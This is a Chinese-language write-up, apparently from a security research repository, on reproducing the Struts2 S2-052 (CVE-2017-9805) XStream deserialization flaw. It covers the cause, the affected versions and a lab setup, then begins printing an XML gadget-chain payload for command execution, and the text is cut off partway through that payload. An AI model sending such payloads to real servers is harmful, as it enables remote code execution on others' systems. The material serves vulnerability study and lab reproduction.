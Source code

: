 * [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#执行命令)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#参考)

## 前言

> 这是Struts系列第十四篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-052漏洞,又名CVE-2017-9805漏洞

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-052)

#### 漏洞成因

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

#### 漏洞影响范围

> Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

### 环境搭建

> 解压缩本目录下的Struts-VulnTest.zip,使用IDEA打开解压后的目录,然后配置好Tomcat和Maven就可以运行了.

### Payload

#### 执行命令

```java
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
        <flags>0</flags>
        <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
            <dataHandler>
            <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                <is class="javax.crypto.CipherInputStream">
                <cipher class="javax.crypto.NullCipher">
                    <initialized>false</initialized>
                    <opmode>0</opmode>
                    <serviceIterator class="javax.imageio.spi.FilterIterator">
```